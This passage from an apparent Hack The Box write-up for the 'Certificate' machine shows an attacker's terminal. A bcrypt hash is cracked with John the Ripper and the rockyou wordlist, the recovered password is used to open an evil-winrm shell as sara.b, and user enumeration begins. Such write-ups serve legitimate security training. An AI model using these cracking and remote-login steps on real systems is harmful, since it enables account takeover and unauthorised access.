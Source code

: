 ```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ cat sarab.hash 
$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ sudo john sarab.hash --wordlist=/usr/share/wordlists/rockyou.txt 
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Blink182         (?)     
1g 0:00:00:01 DONE (2025-06-01 12:10) 0.5882g/s 7200p/s 7200c/s 7200C/s delboy..vallejo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| Username | Password |
| -------- | -------- |
| sara.b   | Blink182 |

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i certificate.htb -u 'sara.b' -p 'Blink182'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Sara.B\Documents>
```

## Enumeration (Sara.B)

Since `Sara.B` didn't had the `user.txt` on her `Desktop` we assumed that there must be another step in the chain of `Privilege Esclation`. We checked her permissions first before me moved on to our next option. Unfortunately her permissions didn't lead us anywhere.

```shell
*Evil-WinRM* PS C:\Users\Sara.B\Documents> whoami /all

USER INFORMATION
----------------

User Name          SID
================== =============================================
certificate\sara.b S-1-5-21-515537669-4223687196-3249690583-1109


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
```